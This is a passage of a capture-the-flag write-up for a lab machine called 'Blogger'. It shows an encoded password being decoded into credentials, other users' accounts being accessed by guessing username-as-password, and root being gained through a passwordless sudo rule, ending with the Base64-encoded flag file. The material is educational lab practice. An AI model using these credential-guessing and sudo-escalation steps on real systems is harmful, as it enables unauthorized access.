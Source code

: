 {: .nolineno}
{: .nolineno}

I used Cyberchef Tool To decode this password and this password is encoded with `ROT47+BASE64+BASE64+BASE64+BASE64+BASE64` and then I got the decoded creds →

![Untitled](Blogger/Untitled%209.png)

```
{: .nolineno}
{: .nolineno}
james:S3cr37_P@$$W0rd
```
{: .nolineno}
{: .nolineno}
{: file='credentials.txt'}

After this I got into James shell and enumerated further as I know that I have 2 more users →

```bash
www-data@ubuntu-xenial:/opt$ ls -al /home
total 20
drwxr-xr-x  5 root    root    4096 Jan 17  2021 .
drwxr-xr-x 25 root    root    4096 Dec  4 03:34 ..
drwxr-xr-x  2 james   james   4096 Jan 17  2021 james
drwxr-xr-x  3 ubuntu  ubuntu  4096 Jan 17  2021 ubuntu
drwxr-xr-x  4 vagrant vagrant 4096 Jan 17  2021 vagrant
www-data@ubuntu-xenial:/opt$
```
{: .nolineno}
{: .nolineno}

After searching so trying so many things I only try to login with same names as `username` and `password` first with ubuntu which did’nt work then with `vagrant` user I got the hit and I was pissed that it was so easy and I was wasting my time trying so many different things .

So I switched to vagrant shell →

```bash
james@ubuntu-xenial:/tmp$ su ubuntu
Password: 
su: Authentication failure
james@ubuntu-xenial:/tmp$ su vagrant
Password: 
vagrant@ubuntu-xenial:/tmp$ sudo -l
Matching Defaults entries for vagrant on ubuntu-xenial:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User vagrant may run the following commands on ubuntu-xenial:
    (ALL) NOPASSWD: ALL
vagrant@ubuntu-xenial:/tmp$ sudo /bin/bash -i
root@ubuntu-xenial:/tmp# cd /root
root@ubuntu-xenial:/root# ls -al
total 24
drwx------  3 root root 4096 Jan 17  2021 .
drwxr-xr-x 25 root root 4096 Dec  4 03:34 ..
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root  501 Apr  2  2021 root.txt
drwx------  2 root root 4096 Jan 17  2021 .ssh
root@ubuntu-xenial:/root# cat root.txt
SGV5IFRoZXJlLApNeXNlbGYgR2F1cmF2IFJhaiwgSGFja2VyLCBQcm9ncmFtbWVyICYgRnJlZUxhbmNlci4KVGhpcyBpcyBteSBmaXJzdCBhdHRlbXB0IHRvIGNyZWF0ZSBhIHJvb20uIExldCBtZSBrbm93IGlmIHlvdSBsaWtlZCBpdC4KQW55IGlzc3VlIG9yIHN1Z2dlc3Rpb25zIGZvciBtZS4gUGluZyBtZSBhdCB0d2l0dGVyCgpUd2l0dGVyOiBAdGhlaGFja2Vyc2JyYWluCkdpdGh1YjogQHRoZWhhY2tlcnNicmFpbgpJbnN0YWdyYW06IEB0aGVoYWNrZXJzYnJhaW4KQmxvZzogaHR0cHM6Ly90aGVoYWNrZXJzYnJhaW4ucHl0aG9uYW55d2hlcmUuY29tCgoKSGVyZSdzIFlvdXIgRmxhZy4KZmxhZ3tXMzExX0QwbjNfWTB1X1AzbjN0cjR0M2RfTTMgOil9Cg==
```